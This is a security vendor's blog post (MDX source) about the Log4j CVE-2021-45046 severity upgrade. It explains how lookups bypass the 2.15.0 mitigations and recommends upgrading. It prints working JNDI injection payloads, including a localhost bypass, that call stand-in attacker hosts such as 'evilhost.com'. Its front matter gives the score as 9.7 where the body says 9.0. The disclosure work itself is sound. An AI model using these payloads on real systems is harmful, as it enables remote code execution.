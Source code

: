 ```yaml
---
title: "Log4Shell Update: Severity Upgraded 3.7 -> 9.0 for Second log4j Vulnerability (CVE-2021-45046)"
description: The second Log4j vulnerability was upgraded from a CVSS score of 3.7x (limited DOS) to a CVSS score of 9.7 (limited RCE), and we explain the impact.
slug: log4j-zero-day-severity-of-cve-2021-45046-increased
date: 2021-12-19
image: https://www.lunasec.io/docs/img/log4shell-keeps-coming.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors: [free, chris, forrest]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-keeps-coming.png)

_The logo gets worse as the situation gets worse..._

_Originally Posted @ December 17th & Last Updated @ December 19th, 3:37pm PST_

Earlier today, the second Log4j vulnerability (CVE-2021-45046), was upgraded from a [CVSS score of 3.7](https://web.archive.org/web/20211215180723/https://logging.apache.org/log4j/2.x/security.html)
(limited DOS) to a [CVSS score of 9.0](https://logging.apache.org/log4j/2.x/security.html) (limited RCE). Note: the reported
limited RCE has only been proven to be exploitable on macOS at the moment. We expect, in time, that other operating systems
will also be shown to be exploitable.

See the bottom of this post for an example exploit payload that bypasses the checks in `log4j` `2.15.0`.

**Just trying to patch Log4Shell? Please read our dedicated
[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).**

## Context on CVE Timeline

The Log4j team had previously released version `2.15.0` on December 6th to address, which at the time had only been
privately disclosed, the Log4Shell vulnerability that abused JNDI and LDAP to allow for an easily exploitable RCE
vulnerability. We posted a
[blog post](https://www.lunasec.io/docs/blog/log4j-zero-day/) about this new RCE that, at the time, was only being posted
about by the Chinese InfoSec community on December 9th, 2021. This post made the broader InfoSec community aware of the
ongoing exploitation and resulted in a frenzy as Java developers worked to patch themselves.

The following day, on December 10th, an official CVE was associated with this RCE vulnerability as
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) with the maximum possible CVSS score of
10.0.

In the days afterwards, it was realized that this fix was incomplete as bypasses were found that could result in a
limited DOS for `2.15.0` users, and, for users that had patched older Log4j releases using `formatMsgNoLookups`, these
bypasses could be used to allow for limited RCE.

Version `2.16.0` was released on December 13th to address the vulnerabilities by completely disabling JNDI by default.
The next day, on December 14th, the second vulnerability was officially given a dedicated CVE numbered CVE-2021-45046
with a limited 3.7 (now 9.0).

In this post, we're going to talk about the impact of these changes, and about why the CVSS score has changed so drastically.

<!--truncate-->

## Understanding the New Bypass

With more attention on the Log4j library now from the security community, we have seen security researchers digging into the
source code of this project. @pwntester [announced on Twitter](https://twitter.com/pwntester/status/1471465662975561734)
that there is a possible RCE still present in `2.15.0`, under certain conditions.

> `2.15.0` with no formatMsgNoLookups mitigations is still vulnerable to RCE. `2.15.0` without those mitigations is vulnerable only
if attackers can control non-message parts of the pattern layout. Just to be clear, `2.15.0` disables message text lookups
by default- users need to enable them explicitly in the patterns with %m{lookups}. So mitigations are in place by default in `2.15.0`.

Version `2.15.0` was released in order to prevent RCE by only allowing LDAP connections to local addresses by default. This
development for the CVE means that there exists a bypass to these newly added security measures. Not everyone who has updated
to `2.15.0` is vulnerable to RCE as it requires a specific logging configuration. Since the `formatMsgNoLookups` property
is on by default in `2.15.0`, to be vulnerable to this RCE, message text lookups must be manually enabled with `%m{lookups}`.

However, there even still are other ways in which a message lookup can take place. Some examples are discussed on the Log4j
security page:

> The reason these measures are insufficient is that, in addition to the Thread Context attack vector mentioned above,
there are still code paths in Log4j where message lookups could occur: known examples are applications that use
Logger.printf("%s", userInput), or applications that use a custom message factory, where the resulting messages do not
implement StringBuilderFormattable. There may be other attack vectors.

To summarize, `2.15.0` introduced changes to prevent remote connections in a message lookup (ie. a connection to `some-attacker.com`
will be blocked in: `${jndi:ldap://some-attacker.com/a}`), as well as disabled message lookups when logging by default:

```
String attackerData = "${jndi:ldap://some-attacker.com/a}";

// Message lookups are blocked in this log statement. Payload will not fire by default.
logger.info("Log string, but no lookup will happen: " + attackerData);
```

These changes were still not enough to prevent message lookups by default as there are other places in the code where this could take place:

```
// Put attacker controlled data in
ThreadContext.put("layout-pattern-value", attackerData);
```

An example `log4j2.properties` file might look something like:

```
# The attacker data, "${jndi:ldap://some-attacker.com/a}", will be attempted to be looked up
appender.console.layout.pattern = ${ctx:layout-pattern-value} - %d{yyyy-MM-dd HH:mm:ss} %-5p %c{1}:%L - %m%n
```

However, since only local connections were allowed in `2.15.0`, the impacts of this vulnerability were minimal.
The most impactful way to exploit this vulnerability was to have `String attackerData = "${ctx:layout-pattern-value"`,
which would result in a recursive reference in the lookup. With the reported bypass of the restrictive remote connection
list, a full RCE is possible in the above code as we can access `some-attacker.com` now.

It is strongly recommended that you update to ~~`2.16.0`~~ `2.17.0` (updated 12/19), even if you have previously updated to `2.15.0` or `2.16.0`, to mitigate these
new bypasses. (Updated 12/19 due to new DOS found in `2.16.0`. Please upgrade to `2.17.0` to mitigate issues in previous versions.)

## Update: The localhost Bypass is Discovered!

The bypass was [posted](https://twitter.com/marcioalm/status/1471740771581652995) on Twitter by Márcio Almeida early on
December 17th.

This payload will bypass the network host restrictions in `log4j` `2.15.0` and allow full RCE again:
```
${jndi:ldap://127.0.0.1#evilhost.com:1389/a}
```

As noted in the security report, a proof of concept exploit has only been successfully executed on macOS. Considering
how many Java developers may use macOS, this is still a significant finding.

We are still investigating how to have this exploit work properly on other operating systems. It has been proposed that
[changing the default provider](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E)
to `dns,sun`:

```
System.setProperty("http://sun.net.spi.nameservice.provider.1", "dns,sun")
```

will cause the exploit to bypass the allowed hosts check in `2.15.0` properly. However, we have not been able to replicate
this yet.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

If this post helped you, please share it with others to help them too.


<ContactForm/>

## Additional Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-17-log4j-update-increased-cvss.mdx).
:::

### Edits

1. Added a note that RCE has only been provably exploitable on macOS.
2. 12/19/21: Updated info about 2.17.0 release due to CVE.
